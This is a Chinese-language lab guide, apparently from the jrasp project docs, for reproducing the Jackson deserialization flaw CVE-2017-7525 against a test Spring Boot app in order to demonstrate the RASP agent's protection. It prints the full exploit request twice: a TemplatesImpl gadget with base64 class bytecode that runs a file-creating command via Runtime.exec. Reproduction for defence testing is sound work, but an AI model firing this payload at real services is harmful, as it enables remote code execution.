




# CVE-2017-7525

## 安装 jrasp 最新版本

[jrasp-agent 安装](../../../guide/install/v1.1.2/jrasp-agent.md)

## 环境准备（linux）

> jar包来源于vulhub镜像

+ jdk 1.7.0_21
+ jackson.jar

下载地址：
```
https://jrasp-daemon-1254321150.cos.ap-shanghai.myqcloud.com/cve/CVE-2017-7525/jdk-7u21-linux-x64.tar.gz
https://jrasp-daemon-1254321150.cos.ap-shanghai.myqcloud.com/cve/CVE-2017-7525/jackson.jar
```

##  web服务启动
```shell
[root@VM-0-9-centos jdk1.7.0_21]# /usr/local/java/jdk1.7.0_21/bin/java -jar ~/jackson.jar

.   ____          _            __ _ _
/\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
\\/  ___)| |_)| | | | | || (_| |  ) ) ) )
'  |____| .__|_| |_|_| |_\__, | / / / /
=========|_|==============|___/=/_/_/_/
:: Spring Boot ::       (v1.5.12.RELEASE)

2023-07-22 01:12:10.990  INFO 23636 --- [           main] com.b1ngz.sec.JacksonApplication         : Starting JacksonApplication v0.0.1-SNAPSHOT on VM-0-9-centos with PID 23636 (/root/jackson.jar started by root in /usr/local/java/jdk1.7.0_21)
2023-07-22 01:12:11.004  INFO 23636 --- [           main] com.b1ngz.sec.JacksonApplication         : No active profile set, falling back to default profiles: default
2023-07-22 01:12:11.263  INFO 23636 --- [           main] ationConfigEmbeddedWebApplicationContext : Refreshing org.springframework.boot.context.embedded.AnnotationConfigEmbeddedWebApplicationContext@1e5cf0c3: startup date [Sat Jul 22 01:12:11 CST 2023]; root of context hierarchy
2023-07-22 01:12:14.562  INFO 23636 --- [           main] s.b.c.e.t.TomcatEmbeddedServletContainer : Tomcat initialized with port(s): 8080 (http)
```
## jrasp 注入
```shell
2023-07-22 01:12:17.356  INFO 23636 --- [           main] o.s.j.e.a.AnnotationMBeanExporter        : Registering beans for JMX exposure on startup
2023-07-22 01:12:17.705  INFO 23636 --- [           main] s.b.c.e.t.TomcatEmbeddedServletContainer : Tomcat started on port(s): 8080 (http)
2023-07-22 01:12:17.726  INFO 23636 --- [           main] com.b1ngz.sec.JacksonApplication         : Started JacksonApplication in 7.921 seconds (JVM running for 8.707)
2023-07-22 01:13:08.008  INFO [jrasp] 开启RASP安全防护，技术支持: https://www.jrasp.com
```

发起请求，会生成文件`/tmp/prove1.txt`

```
curl --location --request POST 'http://111.229.199.6:8080/exploit' \
--header 'Content-Type: application/json' \
--data-raw '{
  "param": [
    "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    {
      "transletBytecodes": [
  "yv66vgAAADMAKAoABAAUCQADABUHABYHABcBAAVwYXJhbQEAEkxqYXZhL2xhbmcvT2JqZWN0OwEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAcTGNvbS9iMW5nei9zZWMvbW9kZWwvVGFyZ2V0OwEACGdldFBhcmFtAQAUKClMamF2YS9sYW5nL09iamVjdDsBAAhzZXRQYXJhbQEAFShMamF2YS9sYW5nL09iamVjdDspVgEAClNvdXJjZUZpbGUBAAtUYXJnZXQuamF2YQwABwAIDAAFAAYBABpjb20vYjFuZ3ovc2VjL21vZGVsL1RhcmdldAEAEGphdmEvbGFuZy9PYmplY3QBAAg8Y2xpbml0PgEAEWphdmEvbGFuZy9SdW50aW1lBwAZAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwwAGwAcCgAaAB0BABV0b3VjaCAvdG1wL3Byb3ZlMS50eHQIAB8BAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAAhACIKABoAIwEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQHACUKACYAFAAhAAMAJgAAAAEAAgAFAAYAAAAEAAEABwAIAAEACQAAAC8AAQABAAAABSq3ACexAAAAAgAKAAAABgABAAAABgALAAAADAABAAAABQAMAA0AAAABAA4ADwABAAkAAAAvAAEAAQAAAAUqtAACsAAAAAIACgAAAAYAAQAAAAoACwAAAAwAAQAAAAUADAANAAAAAQAQABEAAQAJAAAAPgACAAIAAAAGKiu1AAKxAAAAAgAKAAAACgACAAAADgAFAA8ACwAAABYAAgAAAAYADAANAAAAAAAGAAUABgABAAgAGAAIAAEACQAAABYAAgAAAAAACrgAHhIgtgAkV7EAAAAAAAEAEgAAAAIAEw=="
      ],
      "transletName": "a.b",
      "outputProperties": {}
    }
  ]
}'
```
或者postman
　
POST body
```
{
  "param": [
    "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    {
      "transletBytecodes": [
  "yv66vgAAADMAKAoABAAUCQADABUHABYHABcBAAVwYXJhbQEAEkxqYXZhL2xhbmcvT2JqZWN0OwEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAcTGNvbS9iMW5nei9zZWMvbW9kZWwvVGFyZ2V0OwEACGdldFBhcmFtAQAUKClMamF2YS9sYW5nL09iamVjdDsBAAhzZXRQYXJhbQEAFShMamF2YS9sYW5nL09iamVjdDspVgEAClNvdXJjZUZpbGUBAAtUYXJnZXQuamF2YQwABwAIDAAFAAYBABpjb20vYjFuZ3ovc2VjL21vZGVsL1RhcmdldAEAEGphdmEvbGFuZy9PYmplY3QBAAg8Y2xpbml0PgEAEWphdmEvbGFuZy9SdW50aW1lBwAZAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwwAGwAcCgAaAB0BABV0b3VjaCAvdG1wL3Byb3ZlMS50eHQIAB8BAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAAhACIKABoAIwEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQHACUKACYAFAAhAAMAJgAAAAEAAgAFAAYAAAAEAAEABwAIAAEACQAAAC8AAQABAAAABSq3ACexAAAAAgAKAAAABgABAAAABgALAAAADAABAAAABQAMAA0AAAABAA4ADwABAAkAAAAvAAEAAQAAAAUqtAACsAAAAAIACgAAAAYAAQAAAAoACwAAAAwAAQAAAAUADAANAAAAAQAQABEAAQAJAAAAPgACAAIAAAAGKiu1AAKxAAAAAgAKAAAACgACAAAADgAFAA8ACwAAABYAAgAAAAYADAANAAAAAAAGAAUABgABAAgAGAAIAAEACQAAABYAAgAAAAAACrgAHhIgtgAkV7EAAAAAAAEAEgAAAAIAEw=="
      ],
      "transletName": "a.b",
      "outputProperties": {}
    }
  ]
}
```
查看攻击：


漏洞详情：






## 注意事项
+ jdk版本必须是`1.7.0_21`
+ 当前复现环境是linux，其他环境不保证成功